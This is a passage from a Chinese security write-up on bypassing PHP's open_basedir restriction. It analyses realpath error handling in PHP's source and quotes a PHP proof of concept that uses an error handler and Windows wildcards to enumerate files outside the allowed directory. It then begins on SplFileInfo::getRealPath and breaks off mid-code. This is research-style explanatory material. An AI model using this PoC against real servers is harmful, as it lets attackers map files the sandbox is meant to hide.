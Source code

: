 
可以看到realpath函数的错误处理，第一个if调用了VCWD_REALPATH 函数， 大概是判断路径是否正确，如果错误不执行php_check_open_basedir， 直接返回false, 如果是正确的文件路径才去验证是否在open_basedir目录下

可以看到这个逻辑是存在漏洞的，举个例子， 我们需要猜解根目录（不再open_basedir中)下的所有文件， 只用写一个捕捉err_handle().  当猜解某个存在的文件时， 会因不满足php_check_open_basedir函数抛出错误而进入err_handle().  当猜解某个不存在的文件时， 程序会直接返回false. 


在linux 下猜解目录的效率很低，  window 下可以借助通配符`< >`

借用p牛的poc:

```c
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
set_error_handler('isexists');
$dir = 'd:/test/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) { 
    $file = $dir . $chars[$i] . '<><';
    realpath($file);
}
function isexists($errno, $errstr)
{
    $regexp = '/File\((.*)\) is not within/';
    preg_match($regexp, $errstr, $matches);
    if (isset($matches[1])) {
        printf("%s <br/>", $matches[1]);
    }
}
?>
```



2. SplFileInfo::getRealPath 列举目录

我们来看一下该函数的源码: `ext/spl/spl_directory.c`

```c
SPL_METHOD(SplFileInfo, getRealPath)
{
	spl_filesystem_object *intern = Z_SPLFILESYSTEM_P(getThis());
	char buff[MAXPATHLEN];
	char *filename;
	zend_error_handling error_handling;

	if (zend_parse_parameters_none() == FAILURE) {
		return;
	}

	zend_replace_error_handling(EH_THROW, spl_ce_RuntimeException, &error_handling);

	if (intern->type == SPL_FS_DIR && !intern->file_name && intern->u.dir.entry.d_name[0]) {
		spl_filesystem_object_get_file_name(intern);
	}

	if (intern->orig_path) {
		filename = intern->orig_path;
	} else {
		filename = intern->file_name;
	}


	if (filename && VCWD_REALPATH(filename, buff)) {
#ifdef ZTS
		if (VCWD_ACCESS(buff, F_OK)) {
```